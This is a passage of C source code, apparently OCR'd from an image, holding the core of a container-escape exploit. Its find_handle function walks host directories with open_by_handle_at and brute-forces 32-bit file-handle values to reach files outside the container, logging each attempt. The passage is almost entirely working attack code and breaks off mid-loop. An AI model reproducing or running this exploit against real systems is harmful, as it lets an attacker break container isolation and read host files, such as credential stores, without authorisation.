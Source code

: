 ```c
void dump_handle(const struct my_file_handle * h) {
fprintf(stderr, "[*] #=%d, %d, char nh[] = {", h -> handle_bytes,
h -> handle_type);
for (int i = 0; i < h -> handle_bytes; ++i) {
fprintf(stderr, "0x%02x", h -> f_handle[i]);
if ((i + 1) % 20 == 0)
fprintf(stderr, "\n");
if (i < h -> handle_bytes - 1)
fprintf(stderr, ", ");
}
fprintf(stderr, "};\n");
}
int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle *oh)
{
int fd;
uint32_t ino = 0;
struct my_file_handle outh = {
.handle_bytes = 8,
.handle_type = 1
};
DIR * dir = NULL;
struct dirent * de = NULL;
path = strchr(path, '/');
// recursion stops if path has been resolved
if (!path) {
memcpy(oh -> f_handle, ih -> f_handle, sizeof(oh -> f_handle));
oh -> handle_type = 1;
oh -> handle_bytes = 8;
return 1;
}
++path;
fprintf(stderr, "[*] Resolving '%s'\n", path);
if ((fd = open_by_handle_at(bfd, (struct file_handle * ) ih, O_RDONLY)) < 0)
die("[-] open_by_handle_at");
if ((dir = fdopendir(fd)) == NULL)
die("[-] fdopendir");
for (;;) {
de = readdir(dir);
if (!de)
break;
fprintf(stderr, "[*] Found %s\n", de -> d_name);
if (strncmp(de -> d_name, path, strlen(de -> d_name)) == 0) {
fprintf(stderr, "[+] Match: %s ino=%d\n", de -> d_name, (int) de -> d_ino);
ino = de -> d_ino;
break;
}
}
fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
if (de) {
for (uint32_t i = 0; i < 0xffffffff; ++i) {
outh.handle_bytes = 8;
outh.handle_type = 1;
memcpy(outh.f_handle, & ino, sizeof(ino));
memcpy(outh.f_handle + 4, & i, sizeof(i));
if ((i % (1 << 20)) == 0)
fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de -> d_name, i);
if (open_by_handle_at(bfd, (struct file_handle * ) & outh, 0) > 0) {
closedir(dir);
close(fd);
dump_handle( & outh);
return find_handle(bfd, path, & outh, oh);
}
```